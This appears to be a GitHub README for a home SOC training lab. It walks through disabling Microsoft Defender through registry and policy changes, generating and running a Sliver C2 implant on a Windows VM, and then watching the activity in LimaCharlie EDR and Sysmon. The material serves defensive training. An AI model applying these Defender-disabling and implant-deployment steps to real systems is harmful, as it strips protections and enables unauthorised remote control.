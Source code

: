 # SOC-MOCK
## Objective
This project aimed to build a realistic Security Operations Center (SOC) training environment focusing on practical skills for detecting and responding to cyber threats.
Objectives were enhancing network security by implementing best practices such as disabling unnecessary services, configuring firewalls, and strengthening user account controls. Advanced threat detection tools like Sysmon and LimaCharlie EDR were deployed for real-time analysis. Adversary techniques were simulated, and threat responses were automated to stay ahead of potential risks. Additionally, YARA rules were integrated to enhance malware detection capabilities.
<br><br>

## Components

- **VirtualBox**: Used for creating and managing virtual machines.
- **Ubuntu Server VM**: Used to deploy the Sliver C2 framework, which acts as a simulated attacker tool.
- **Windows VM**: Used as victim endpoint device.
- **LimaCharlie EDR**: An EDR platform used to collect, analyze logs and investigate telemetry from the Windows VM.
- **Sliver C2**: A simulated attacker tool used to create a Command & Control (C2) server on the Ubuntu VM.
- **YARA Rules**: Specific sets of instructions used to identify malware based on patterns.
- **Sysmon**: Windows system service used to monitor and log system activity to the event log.
- **VirusTotal**: A service for analyzing suspicious files and URLs for malware.
- **NAT Network**: Configured in VirtualBox for network simulation.

<details>
  <summary><h2><b>Section 1: Setting up the Virtual Environment</b></h2></summary>
  This section will guide through the setup of virtual environment using VirtualBox (If you want you, can use VMware as well). Configure a NAT network and install two virtual machines – one for Ubuntu Server and another for a Windows 10. <br><br>

   **Step 1: Download and setup Virtualbox**:  
    You can download Virtualbox from here. Setup is pretty straightforward
    <br><br>
   **Step 2: Create a New VM for Windows 10**:  
   Next, set up a new virtual machine in VirtualBox for Windows 10.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 50 GB
    <br><br>
    
   **Step 3: Create a New VM for Ubuntu Server**:  
    Now, set up a new virtual machine in VirtualBox for Ubuntu Server.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 20 GB
   - During OS install, **leave defaults as is**
  ![Image](https://imgur.com/GDfOZmg.png)
    <br><br>
  - After installation it should look like this:
  ![Image](https://imgur.com/9VNGxVp.png)
    <br><br>
       
   **Step 4: Configure Windows VM**:  
    Permanently disable Microsoft Defender so it doesn’t interfere with the fun stuff we’re planning. This is pretty tricky (especially in Windows 11) as Defender will turn itself back on.
1. Disable Tamper Protection
  - Go to "Windows Security"
  - Click “Virus & threat protection”
  - Under “Virus & threat protection settings” click “Manage settings”
  - Toggle OFF the “Tamper Protection” switch. When prompted, click “Yes”
![Image](https://imgur.com/iTuPTwi.png)
  - Toggle every other option OFF as well
2. Permanently Disable Defender via Group Policy Editor
  - Click the “Start” menu icon
  - Type “cmd” into the search bar within the Start Menu
  - Right+Click “Command Prompt” and click “Run as administrator”
  - Run the following command
```
gpedit.msc
```
  - Inside the Local Group Policy Editor
  - Click Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
  - Double-click “Turn off Microsoft Defender Antivirus”
  - Select “Enabled” (If you enable this policy setting, Defender doesn't run, and will not scan for malware or other potentially unwanted software)
  - Click "Apply"
![Image](https://imgur.com/9bsP5Lf.png)
3. Permanently Disable Defender via Registry
  - From the same administrative cmd, copy/paste this command and press Enter
<br>

```
REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

</br>

4. Prepare to boot into Safe Mode to disable all Defender services
  - Click the “Start” menu icon
  - Type “msconfig” into the search bar
  - Go to “Boot” tab and select “Boot Options”
  - Check the box for “Safe boot” and “Minimal”
![Image](https://imgur.com/0K1OBWq.png)
  - Click Apply and OK
  - System will restart into Safe Mode

5. Now, in Safe Mode, we’ll disable some services via the Registry
  - Press the “Win + R"
  - Type “regedit” into the search bar and hit Enter
  - For each of the following registry locations, browse to the key, find the “Start” value, and change it to "4"
![Image](https://imgur.com/IWskQZt.png)
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sense
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdBoot
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisDrv
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisSvc
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter

6. Leave Safe Mode the same way we got into it
  - Uncheck the box for “Safe boot”
  - System will restart into normal desktop environment, hopefully Defender-free
    <br><br>
</details>

<details>
  <summary><h2><b>Section 2: Install Sysmon in Windows VM</b></h2></summary>

This is actually optional in this project, but it’s a must-have analyst tool for getting very granular telemetry on your Windows endpoint. You can read more about it
[here](https://www.learn.microsoft.com/en-us/sysinternals/downloads/sysmon/). 

1. **Launch an Administrative PowerShell console for the following commands:**

- Click the “Start” menu icon
- Type “Powershell” into the search bar within the Start Menu
- Click “Windows PowerShell” and click “Run as administrator”

2. **Download Sysmon with the following command:**
```
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
3. **Unzip sysmon.zip**
```
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
4. **Download SwiftOnSecurity’s Sysmon config**
```
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
5. **Install Sysmon with Swift’s config**
```
C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
![Image](https://imgur.com/eUuEwgD.png)

6. **Check Sysmon64 service is installed and running**
```
Get-Service sysmon64
```
7. **Check for the presence of Sysmon Event Logs**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10
```
  <br><br>
</details>

<details>
  <summary><h2><b>Section 3: Install LimaCharlie EDR on Windows VM</b></h2></summary>

  [LimaCharlie](https://www.limacharlie.io/) 
  is a very powerful SecOps Cloud Platform. It not only comes with a cross-platform EDR agent, but also handles all of the log shipping/ingestion and has a threat detection engine. In free version you can create for up to two systems which is great for projects like this.

1. **Create a free LimaCharlie account**
- LimaCharlie will ask you a few questions about your role. Answer however you like.

2. **Create an organization**

Name: *Anything*

Data Residency Region: *Closest to you*

Demo Configuration Enabled: *Disabled*

Template: *Extended Detection & Response Standard*
![Image](.png)

3. **Click "Add a Sensor"**

- Select Windows
- Provide a description such as: Windows VM - Lab
- Click Create
- Select the Installation Key we just created
![Image](.png)
- Select the "x86-64 (.exe)" sensor
![Image](.png)

- In Windows VM, open an Administrative PowerShell and paste the following commands:
```
cd C:\Users\User\Downloads
```
```
Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
```
- Shift into a standard admin cmd

- Copy the install command provided by LimaCharlie which contains the installation key. Paste this command into your open terminal.
![Image](.png)

- Paste this command into the admin command prompt in your Windows VM

- If everything worked correctly, in the LimaCharlie web UI you should see the sensor reporting in


4. **Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry**

- In the left-side menu, click “Artifact Collection”
- Next to “Artifact Collection Rules” click “Add Rule”
```
Name: windows-sysmon-logs
Platforms: Windows
Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10
```
- Click “Save Rule”

LimaCharlie will now start shipping Sysmon logs which provide a wealth of EDR-like telemetry, some of which is redundant to LC’s own telemetry, but Sysmon is still a very power visibility tool that runs well alongside any EDR agent.

The other reason we are ingesting Sysmon logs is that the built-in Sigma rules we previously enabled largely depend on Sysmon logs as that is what most of them were written for.

Now would be a good time to Snapshot your Windows VM.
<br>
</details>

<details>
  <summary><h2><b>Section 4: Setup Attack System </b></h2></summary>
  I recommend using an SSH client to access the Ubuntu VM so that you can easily copy/paste commands.

1. **Open your CLI**

```
ssh username@[Linux_VM_IP]
```

2. **Now, from within this new SSH session, proceed with the following instructions to setup our attacker C2 server. First, gain access to the root shell to make life easier.**

```
sudo su
```

3. **Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.**

- Download Sliver Linux server binary
```
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
```
- Make it executable
```
chmod +x /usr/local/bin/sliver-server
```
- install mingw-w64 for additional capabilities
```
apt install -y mingw-w64
```
- Create our future working directory
```
mkdir -p /opt/sliver
```

Explore the LimaCharlie web interface to learn more about what it can do!
</details>


<details>
  <summary><h2><b>Section 5: Generate the Command & Control payload </b></h2></summary>
  Either from your SSH session or directly from your Ubuntu Server, take the following actions:
  <br></br>

  1. **Access root shell and change dir to Sliver install**

```
sudo su
cd /opt/sliver
```

  2. **Launch Sliver server**

```
sliver-server
```

  3. **Generate C2 session payload. Use your Linux VM’s IP address**
```
generate --http [Linux_VM_IP] --save /opt/sliver
```

  4. **Confirm the new implant configuration**
```
implants
```

  5. **Now we have a C2 payload we can drop onto our Windows VM. Exit Sliver for now.**
```
exit
```

  6. **To easily download the C2 payload from the Linux VM to the Windows VM, use this python trick that spins up a temp web server**
```
cd /opt/sliver
python3 -m http.server 80
```

  7. **Switch to the Windows VM and launch an Admin PowerShell console to download the implant from Ubuntu server**
```
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```

Now would be a good time to snapshot your Windows VM, before we execute the malware.

</details>
<details>
  <summary><h2><b>Section 6: Start Command & Control Session  </b></h2></summary>

1. **Now that the payload is on the Windows VM, switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback**

- Terminate the python web server by pressing "Ctrl + C"
- Now, relaunch Sliver
```
sliver-server
```
- Start the Sliver HTTP listener
```
http
```
- If you get an error starting the HTTP listener, reboot the VM

2. **Return to the Windows VM and execute the C2 payload from its download location using the same admin PowerShell prompt**
```
C:\Users\User\Downloads\<your_C2-implant>.exe
```

3. **Within a few moments, you should see your session check in on the Sliver server**

4. **Verify your session in Sliver, and note its Session ID**
```
sessions
```
5. **To interact with your new C2 session, type the following command into the Sliver shell**
```
use [session_id]
```
> c0ngratulations! you pwned your Windows VM
6. **Now, run a few basic commands**

- To get info about the session
```
info
```
- Find out the user and learn his privileges
```
whoami
```
```
getprivs
```
> If your implant was properly run with Admin rights, you’ll notice you have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” — if you don't see these privileges, make sure you ran the implant from an Admin command prompt
- Identify implant’s working dir
```
pwd
```
- Examine network connections occurring on the remote system
```
netstat
```
- Identify running processes on the remote system
```
ps -T
```
> Notice that Sliver highlights its own process in green and any defensive tools in red. This is how attackers become aware of what security products a victim system using.
  </details>

<details>
  <summary><h2><b>Section 7: Observe EDR Telemetry</b></h2></summary>

1. **Hop into the LimaCharlie web UI and check out some basic features**

- Click “Sensors” on left menu

- Click your active Windows sensor


- On the new left-side menu for this sensor, click “Processes”


> Explore what is returned in the process tree. Hover over some of the icons to see what they represent

Knowing common processes on a system is very important. As Professionalas say at SANS, “you must know normal before you can find evil.” Check out this [“Hunt Evil”](https://www.sans.org/posters/hunt-evil/) poster from SANS.


2. **One of the easiest ways to spot unusual processes is to simply look for ones that are NOT signed**
- The C2 implant shows as not signed, and is also active on the network.


- Notice how quickly we are able to identify the destination IP this process is communicating with.

3. **Now click the “Network” tab on the left-side menu**

- Explor what is returned in the network list. "Ctrl+F" to search for your implant name

4. **Now click the “File System” tab on the left-side menu**

- Browse to the location we know our implant to be running from


5. **Inspect the hash of the suspicious executable by scanning it with VirusTotal**

> “Item not found” on VirusTotal doesn't mean that this file is innocent, it just might not that scanned before. This makes sense because you just generated this payload, so of course it’s not likely to be seen by VirusTotal before. So, if you already suspect a file to be possible malware, but VirusTotal has never seen it before, trust your instincts. This actually makes a file even more suspicious because nearly everything has been seen by VirusTotal, so your sample may have been custom-crafted/targeted.

6. **Click “Timeline” on the left-side menu of our sensor. This is a real-time view of EDR telemetry + event logs streaming from this system**

- Read about the various EDR events in the LimaCharlie docs.

- Filter your timeline with known IOCs (indicators of compromise) such as the name of your implant or the known C2 IP address

- If you scroll back far enough, should be able to find the moment your implant was created on the system, and when it was launched shortly after, and the network connections it created immediately after


7. **Examine the other events related to your implant process** 

- you’ll see it is responsible for other events such as “SENSITIVE_PROCESS_ACCESS” from when you enumerated your privileges in an earlier step. This particular event will be useful later on when you will craft your first detection rule

> I recommend spending more time exploring LimaCharlie telemetry to familiarize yourself not only with the known-bad events, but also the abundance of “normal” things happening on your “idle” Windows VM.
  </details>

<details>
  <summary><h2><b>Section :  </b></h2></summary>

  </details>